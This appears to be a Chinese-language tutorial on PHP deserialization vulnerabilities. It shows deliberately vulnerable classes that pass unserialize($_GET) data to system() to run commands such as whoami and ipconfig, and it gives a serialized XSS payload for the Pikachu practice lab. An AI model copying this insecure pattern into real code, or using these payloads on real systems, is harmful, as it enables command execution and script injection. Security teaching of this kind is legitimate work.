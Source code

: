 不用实例化对象？直接执行系统命令？  
```
class B {     public $var = 'hellow word';     public function __destruct() {         system('whoami').'<br>'; // 恶意代码！     }     public function __construct() {         echo 'you are very good hacker!'.'<br>';     }     public function __toString() {         return $this->var;     } } //$demo=new B();//取消实例化，方便演示 //echo serialize($demo).'<br>'; //输出 O:1:"B":1:{s:3:"var";s:11:"hellow word";} $test=unserialize($_GET['x']); // 反序列化！ echo $test; 
```  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/71ibgGpZLr2V5LZvW92UW9iaWTthQugtbgicDxiajRtuQSLtJzO3OFebyeymyvmSMgTOiabiahx8MY2jhiaFbIHhCR4ibQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
发送恶意payload？whoami  
命令被执行了！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7O8nPRxfRT5j5B8tSgvLxS66qzJQMia9wtwicqQxgibqyYAsDSKpT7XXN0m5PazW2eICHXStiamv2Pa5AfwagFNzSQ/640?wx_fmt=jpeg "")  
  
再来一个例子？获取ipconfig  
？  
```
class C {     public $cmd = 'ipconfig'; // 恶意命令！     public function __construct() {         echo 'you txt'.'<br>';     }     public function __destruct() {         system($this->cmd); // 执行命令！     } } //echo serialize(new C());// 序列化为：O:1:"C":1:{s:3:"cmd";s:8:"ipconfig";} unserialize($_GET['x']); // 反序列化入口！ 
```  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7O8nPRxfRT5j5B8tSgvLxS66qzJQMia9wDrCyn9LfEOK8IAbIpglHKg5g8yoNf4AzGsMYiaFfib7pHcn9kaSZbVkg/640?wx_fmt=jpeg "")  
  
修改序列化的值？获取系统版本号？  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7O8nPRxfRT5j5B8tSgvLxS66qzJQMia9w376mVLweZa0RHXrwSDLoREkib9Prk78jqliaQsvVT4J41FC8uia2Yr9GQ/640?wx_fmt=jpeg "")  
  
这就是反序列化漏洞？呵呵，这只是冰山一角！  
#### Pikachu 漏洞平台：小试牛刀？  
  
Pikachu 平台？ 适合小白入门？ 别太当真！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7O8nPRxfRT5j5B8tSgvLxS66qzJQMia9wGic68URl9lIrEAd8eqgwV6icgVJbIIKkbkfQibsuusj6IF2xkt60A0YgQ/640?wx_fmt=jpeg "")  
  
观察表单数据？ 传了一个o  
参数？ 网页源码？ 啥也没有？ 黑盒测试？ 抓瞎？  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7O8nPRxfRT5j5B8tSgvLxS66qzJQMia9wCgwISEKfWwv3b5rwO5bwnicfy68ap3axQMM80gTH3am85Qu5M1D7wdA/640?wx_fmt=jpeg "")  
  
直接看源码？ 偷偷告诉你 payload？  
```
O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";} 
```  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7O8nPRxfRT5j5B8tSgvLxS66qzJQMia9wMduzvXfZalpPnDzsib1q7bIT1TicOqPw39n2hdxLmKBAzxM27ZY14fmg/640?wx_fmt=jpeg "")  
  
注意 payload 长度？ 必须精确匹配！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7O8nPRxfRT5j5B8tSgvLxS66qzJQMia9wAclHLgxDRIzSZPBQekuyG635Em0IxsoOOYDDLiaNIZ2jXsNtBc6BLvA/640?wx_fmt=jpeg "")  
#### 总结：反序列化漏洞？一场没有硝烟的战争！  
  